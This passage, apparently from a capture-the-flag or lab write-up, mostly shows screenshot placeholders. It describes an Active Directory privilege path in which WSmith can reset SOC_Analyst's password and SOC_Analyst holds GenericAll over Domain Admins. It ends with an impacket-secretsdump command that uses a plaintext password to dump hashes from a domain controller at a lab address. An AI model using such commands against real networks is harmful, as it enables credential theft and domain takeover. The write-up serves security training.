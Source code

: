 ![image84](../resources/9d536ee0ef874d31aee83e5ac4cbee10.png)

WSmith has ForceChangePassword on SOC_Analyst which has GenericAll to Domain Admins


![image85](../resources/e69a94dc1b8246e38f3770ae2572357f.png)


![image86](../resources/6b691ec1efa3445ca5272aa7850c7812.png)

- Now we can dump the hashes from the DC:

```bash
impacket-secretsdump soc_analyst:'Password123!'@10.129.242.35 -dc-ip 10.129.242.35

```
